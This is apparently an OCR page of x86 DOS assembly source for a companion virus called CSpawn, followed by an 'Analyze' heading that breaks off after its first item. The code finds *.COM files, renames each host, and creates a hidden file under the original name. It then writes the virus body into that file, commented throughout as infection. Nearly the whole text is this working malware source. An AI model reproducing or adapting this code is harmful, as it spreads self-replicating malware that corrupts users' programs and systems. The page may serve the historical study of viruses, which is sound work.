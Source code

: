 ```x86
        xor     cx,cx                     ;CX holds all file attributes
FIND_LOOP:
        int     21H
        jc      FIND_DONE                 ;Exit if no files found
        call    INFECT_FILE               ;Infect the file!
        mov     ah,4FH
        jmp     FIND_LOOP                 ;Try finding another file
FIND_DONE:
        ret                               ;Return to caller

COM_MASK db      '*.COM',0        ;COM file search mask

;This routine infects the file specified in the DTA.
INFECT_FILE:
        mov     si,9EH                    ;DTA + 1EH
        mov     di,OFFSET REAL_NAME       ;DI points to new name
INF_LOOP:
        lodsb
        stosb
        or       al,al
        jnz      INF_LOOP                 ;Is it a NULL?
        mov      WORD PTR [di-21],'N'
        mov     dx,9EH
        mov     di,OFFSET REAL_NAME
        mov     ah,56H
        int     21H                       ;rename original file
        jc       INF_EXIT                 ;if can’t rename, already done

        mov     ah,3CH
        mov     cx,2
        int     21H                       ;DOS create file function
                                          ;set hidden attribute

        mov     bx,ax                     ;BX holds file handle
        mov     ah,40H
        mov     cx,FINISH - CSpawn
        mov     dx,OFFSET CSpawn
        int     21H                       ;DOS write to file function

        mov     ah,3EH
        int     21H                       ;DOS close file function

INF_EXIT:
        ret

REAL_NAME db      13 dup (?)
                                  ;Name of host to execute
;DOS EXEC function parameter block
PARAM_BLK DW ?             ;environment segment
          DD 80H           ;@ of command line
          DD 5CH           ;@ of first FCB
          DD 6CH           ;@ of second FCB

FINISH:

end CSpawn

```
## Analyze
1.  **Program Setup and Memory Management**:
    